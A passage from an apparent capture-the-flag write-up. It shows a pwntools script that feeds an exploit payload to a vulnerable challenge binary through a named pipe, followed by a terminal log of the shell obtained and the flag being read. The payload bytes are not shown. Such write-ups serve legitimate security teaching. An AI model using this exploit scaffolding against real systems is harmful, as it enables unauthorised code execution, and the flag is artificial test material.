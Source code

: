 ```python

subprocess.check_call(["mkfifo", "./fifo"])

vp = process(["./pwn", "./fifo"])
# break *0x8048f4e
# gdb.attach(vp)

with open("./fifo", "w") as f:
    f.write(payload)

vp.interactive()

log.info("removing fifo ")
subprocess.check_call(["rm", "./fifo"])
```

Using this we get a shell. On the challenge ssh server:

```
chall@e39e5ded74c2:/tmp/tmp.dzF4rbAhky$ ls
fifo  payload
chall@e39e5ded74c2:/tmp/tmp.dzF4rbAhky$ ~/pwn ./fifo &
[1] 11429
chall@e39e5ded74c2:/tmp/tmp.dzF4rbAhky$ cat payload > fifo
The file has been saved successfully
chall@e39e5ded74c2:/tmp/tmp.dzF4rbAhky$ fg
~/pwn ./fifo
$ ls
fifo  payload
$ cd /home/chall
$ ls
flag  pwn
$ cat flag
rUN!RuN$RUn!Y0U$W1N_TH3_R4c3
```
